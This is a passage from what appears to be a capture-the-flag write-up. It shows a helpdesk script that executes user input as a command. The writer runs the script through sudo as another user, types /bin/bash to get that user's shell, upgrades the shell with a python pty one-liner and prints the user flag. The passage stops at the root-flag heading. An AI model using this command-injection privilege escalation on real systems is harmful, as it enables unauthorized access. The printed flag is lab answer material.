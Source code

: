 ```
www-data@ubuntu:/home$ cat /home/apaar/.helpline.sh
cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

* So it uses the `/bin/bash` interpreter for all of the user input. Which means we we should be able to get a shell.

```
www-data@ubuntu:/var/www/files/images$ sudo -u apaar /home/apaar/.helpline.sh
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: knign
knign
Hello user! I am knign,  Please enter your message: /bin/bash
/bin/bash
id
id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
apaar@ubuntu:/var/www/files/images$ 
```

* Let's get the flag from `/user.txt`.

```
apaar@ubuntu:~$ cat /home/apaar/local.txt
cat /home/apaar/local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

### Answer

```
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

###

### Root Flag

